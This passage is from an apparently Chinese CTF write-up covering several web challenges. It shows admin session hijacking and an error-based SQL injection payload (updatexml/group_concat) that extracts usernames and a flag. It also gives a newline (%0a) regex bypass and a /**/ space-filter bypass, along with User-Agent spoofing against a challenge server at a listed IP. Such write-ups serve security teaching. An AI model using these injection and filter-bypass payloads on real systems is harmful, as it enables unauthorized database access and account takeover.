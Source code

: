 得到 admin 的 session_id 为`MTM5OTYyNzY1Mg==`将⾃己的 session 改成 admin 的 session,登陆进去后发现啥都没有。

继续注⼊入:

```
title=s' or updatexml(0,substring(concat(0x7e,(SELECT group_concat(username) FROM user)),30),0) or '&content=s 
```

得到

```
jlflag{1_d0nt_11k3_5q1m4p} 
```

### WEB300

提交`?password=flag`到达验证码识别的界面。

注意控制 User-Agent 和 Referer,伪装成正常请求。

利用分布式⼈肉验证码识别系统完成。

### WEB400

注意到`http://121.40.150.205/web400/?page=index`这种格式,可能有文件包含。

尝试 http://121.40.150.205/web400/index 能下载得到 index 文件。

查看登陆页面源码 http://121.40.150.205/web400/?page=test

得到提⽰

```
<!--action="./index.php?page=login" --> 
```

访问 http://121.40.150.205/web400/login 得到登陆源码

其中进⾏了一个正则检查只允许字母数字和下划线

```
if (!preg_match('/^\w*$/m', $user) || !preg_match('/^\w*$/m', $pwd)) 
```

可用`%0a`绕过!

过滤了空格,可用`/**/`绕过

另外根据提示:

```
Humans shall pass, but bots will FAIL. 
```

发现表单的提交地址、name、pwd 等都在变,与 session 有关,因此可以用脚本提取这些变的字段。

另外需要修改 user-agent 为正常浏览器的 user-agent。这样可以写脚本进行中转注入。

提交内容举例如下:

```
o5dgNIiZMEySbuCcs3r7=t%0a%27%2F**%2For%2F** %2F1%3D1%23&7PA3h66arJomMvZjEOW8=ss 
```
